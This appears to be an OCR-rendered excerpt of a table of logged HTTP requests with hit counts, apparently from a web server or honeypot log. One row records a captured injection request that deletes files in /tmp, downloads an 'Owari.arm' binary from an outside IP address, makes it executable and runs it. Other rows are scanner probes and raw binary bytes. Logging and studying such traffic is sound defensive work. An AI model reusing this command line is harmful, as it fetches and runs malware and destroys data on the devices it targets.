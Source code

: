 |  23 |                     2 | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://200.129.143.6/Binarys/Owari.arm;chmod+777+/tmp/Owari.arm;sh+/tmp/Owari.arm arm4.jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  24 |                     2 | GET /about.php?520 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|  25 |                     2 | GET /.local HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  26 |                     2 | GET /.remote HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  27 |                     2 | GET /i.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  28 |                     2 | \x04\x01\x00P\x90\xD9\xA1n\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|  29 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03\xB0| \xE7\x8Aw\x09\xAA_m\x86i9\x96\xEA\x9D=\x12h(\xD4H4\x8D\xAF'\xD8\xDE\xE0\xD5\xCDc \x9Cm)\x0B\xF6\xF66\xFC\xECY\xD7u\x15\x05\xDB\xC50\x101\xDE\xE4\x12\xC4\xF7\x8E\xF7T\xD0\xD9\x8C\xDBj\x00>\x13\x02\x13\x03\x13\x01\xC0,\xC00\x00\x9F\xCC\xA9\xCC\xA8\xCC\xAA\xC0+\xC0/\x00\x9E\xC0$\xC0(\x00k\xC0#\xC0'\x00g\xC0                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |